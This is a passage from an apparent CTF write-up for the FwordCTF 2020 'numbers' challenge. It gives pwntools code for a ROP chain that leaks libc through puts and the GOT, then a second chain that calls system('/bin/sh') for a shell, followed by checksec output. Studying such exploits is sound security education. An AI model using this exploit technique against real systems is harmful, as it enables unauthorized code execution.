If the stack were initialized this may be one of the only ways to leak.


### Hard Path: Leak libc

```python
p.recvuntil('are yo sure ??\n')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
log.info('pop_rdi: ' + hex(pop_rdi))

payload  = 0x48 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.symbols['entry'])

p.send(payload)

_ = p.recvuntil('do you ')[-15:][:6]
puts = u64(_ + b'\x00\x00')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

With the base process address leaked, leaking libc with the GOT is trivial.  And, it is necessary again to return to `main+1` (`entry`) to avoid a `printf` segfault for the final pass.


### Hard Path: Get a shell, get a flag

```python
p.sendafter('have any number in mind ??\n','-1')

payload  = 0x48 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendafter('sure ??\n',payload)
p.recv(len(payload))
p.interactive()
```

Not much different that the _easy path_ at this point.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/numbers/libc-database/libs/libc6_2.28-0ubuntu1_amd64/ld-2.28.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/numbers/libc-database/libs/libc6_2.28-0ubuntu1_amd64/libc-2.28.so'
    Arch:     amd64-64-little
```